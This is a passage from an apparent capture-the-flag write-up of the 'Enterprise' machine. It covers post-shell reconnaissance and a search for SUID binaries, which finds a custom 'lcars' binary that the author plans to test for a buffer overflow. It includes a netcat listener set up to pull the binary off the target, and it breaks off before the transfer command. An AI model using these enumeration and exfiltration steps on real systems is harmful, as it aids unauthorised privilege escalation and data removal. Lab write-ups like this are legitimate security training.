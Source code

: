 ```bash
export SHELL=bash
stty rows 29 columns 128
uname -a
lsb_release -a
id
groups
```

<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_083.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_084.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_085.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_086.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_087.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_088.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Continuing with the **Reconnaissance** commands, I find two binaries with the **SUID** bit enabled, `pkexec` and `lcars`, the first one I will discard because it <ins>is not the target of this machine</ins>, but the second one immediately reminds me of the system exposed on port **32812**, so I quickly transfer it to my attacking machine to debug it and check if it is vulnerable to a **Buffer Overflow**. When executing it I need a code to continue with its execution, I can find it with `ltrace` (in case I can't with this tool I can resort to `Ghidra`). I continue testing the system and choosing option 4 and entering a long enough string I manage to crash the binary, this way I can start looking for all the information I need to create an exploit and exploit it.

> **Victime Machine:**

```bash
find \-perm -4000 2>/dev/null
#    --> ./usr/bin/pkexec
#    --> ./bin/lcars

ls -l ./bin/lcars
file ./bin/lcars
md5sum ./bin/lcars
```

> **Attacker Machine:**

```bash
nc -nlvp 443 > lcars_binary
```

> **Victime Machine:**
